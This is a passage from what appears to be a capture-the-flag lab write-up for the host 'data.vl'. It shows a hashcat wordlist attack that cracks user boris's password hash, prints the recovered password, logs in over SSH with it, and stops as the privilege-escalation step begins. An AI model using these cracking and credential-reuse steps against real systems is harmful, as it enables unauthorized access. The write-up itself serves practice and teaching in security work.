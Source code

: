 ```bash
sudo hashcat -m 10900 hashcat_hash --wordlist /usr/share/wordlists/rockyou.txt
```

After running hashcat, we successfully crack the password for user "boris":

```
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

Now that we have credentials for boris, let's try logging in via SSH:

```bash
ssh boris@data.vl
boris@data.vl's password: 
```

```
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan 30 00:26:51 UTC 2025

  System load:  0.0               Processes:              99
  Usage of /:   19.9% of 7.69GB   Users logged in:        0
  Memory usage: 25%               IP address for eth0:    10.10.104.66
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan 30 00:15:59 2025 from 10.8.5.82
boris@ip-10-10-10-11:~$ 

```

We have successfully accessed the host system.

---

## Privilege Escalation

Now, we need to escalate our privileges to root. Checking sudo permissions:

```bash
sudo -l
```
